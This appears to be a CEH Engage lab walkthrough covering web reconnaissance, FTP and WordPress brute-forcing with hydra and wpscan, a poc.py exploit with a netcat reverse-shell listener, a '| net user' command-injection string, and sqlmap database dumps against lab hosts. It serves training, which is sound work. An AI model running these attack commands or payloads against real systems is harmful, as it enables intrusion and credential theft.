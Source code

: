 # 3️⃣ CEH Engage Part 3

You have been assigned a task to perform a clickjacking test on www.certifiedhacker.com that the CEHORG members widely use. Find out whether the site is vulnerable to clickjacking.

### GhostEye

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

### Nikto

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>





Perform an HTTP-recon on www.certifiedhacker.com and find out the version of Nginx used by the web server.



### BillCipher

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

### Whatweb

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>



An FTP site is hosted on a machine in the CEHORG network. Crack the FTP credentials, obtain the “flag.txt” file and determine the content in the file.

```
nmap -p 21 172.16.0.0/24

nmap -p 21 10.10.10.0/24

nmap -p 21 192.168.0.0/24
```

```
hydra -L <username.txt> -P <password.txt> ftp://172.16.0.12
```

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>







Perform web application reconnaissance on movies.cehorg.com and find out the HTTP server used by the web application.

### Whatweb

```
whatweb movies.cehorg.com
```

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

### Nmap

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>





Identify the load balancing service used by eccouncil.org.&#x20;

```
ldb eccouncil.org
```

\-> cloudflare

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>



Identify the Content Management System used by www.cehorg.com.

```
wig www.cehorg.com
```

<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>



Perform a bruteforce attack on www.cehorg.com and find the password of user adam.

```
wpscan --url http://cehorg.com/wp-login.php -U <username.txt> -P <password.txt>
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

Perform parameter tampering on movies.cehorg.com and find out the user for id 1003.

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Type the username as "Jason" and password as "welcome"

\
We found this username and password in the engage part 2. While dumping the wireshark capture data. REMEMBER?
{% endhint %}

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>





You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer.

```
nmap -p 8080 172.16.0.0/24

nmap -p 8080 10.10.10.0/24

nmap -p 8080 192.168.0.0/24
```



#### Extract and Setup Jdk

```
tar -xf jdk-8u202-linux-x64.tar.gz

mv jdk1.8.0_202 /usr/bin
```

#### Update the JDK Path in the Poc.py file

{% hint style="info" %}
Change Line no: 62, replace jdk1.8.0\_20/bin/javac with "/usr/bin/jdk1.8.0\_202/bin/javac"

\
Change Line no: 87, replace jdk1.8.0\_20/bin/java with "/usr/bin/jdk1.8.0\_202/bin/java"\
\
Change Line no: 99, replace jdk1.8.0\_20/bin/java with "/usr/bin/jdk1.8.0\_202/bin/java"
{% endhint %}

#### Create a Netcat Listener

```
nc -lvp 9001
```

#### Create a Payload

```
python3 poc.py --userip 10.10.1.13 --webport 8080 --lport 9001
```



{% hint style="info" %}
Copy the send me payload and paste in the username field and enter any random password and press Login
{% endhint %}



<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>



Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine. Note: Exclude admin/Guest user

```
| net user
```

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>













A file named Hash.txt has been uploaded through DVWA (http://10.10.10.25:8080/DVWA). The file is located in the directory mentioned below. Access the file and crack the MD5 hash to reveal the original message; enter the content after cracking the hash. You can log into the DVWA using the following credentials. Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use “type” command to view the file. Use the following link to decrypt the hash- https://hashes.com/en/decrypt/hash

{% embed url="https://hashes.com/en/decrypt/hash" %}

<figure><img src="../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>



Perform Banner grabbing on the web application movies.cehorg.com and find out the ETag of the respective target machine.

<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>



Perform Web Crawling on the web application movies.cehorg.com and identify the number of live png files in images folder.

<figure><img src="../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>



Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. (Yes/No).

\-> No

### PwnXSS

```
python3 pwnxss.py -u http://www.cehorg.com
```



### OWASP ZAP

<figure><img src="../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>



Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. Use Jason/welcome as login credentials.

#### Get Database

```
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" --dbs
```

#### Get Tables

```
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope --tables
```

#### Get number of Users available

```
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope -T UserProfile --count
```

#### Dump Table Data

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<Cookie Value>" -D moviescope -T User_Login --dump
```

#### Dump Databases

```
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope --dump-all
```

<figure><img src="../../.gitbook/assets/Screenshot from 2023-11-25 15-57-59.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot from 2023-11-25 15-59-02.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot from 2023-11-25 15-58-22.png" alt=""><figcaption></figcaption></figure>







CEHORG suspects of a possible session hijacking attack on a machine in its network. The organisation has retained the network traffic data for the session at C:\Users\Admin\Documents in the EH Workstation – 2 as sniffsession.pcap. You have been assigned a task to perform an analysis and find out the protocol that has been used for sniffing on its network.





<figure><img src="../../.gitbook/assets/Screenshot from 2023-11-25 16-02-44.png" alt=""><figcaption></figcaption></figure>
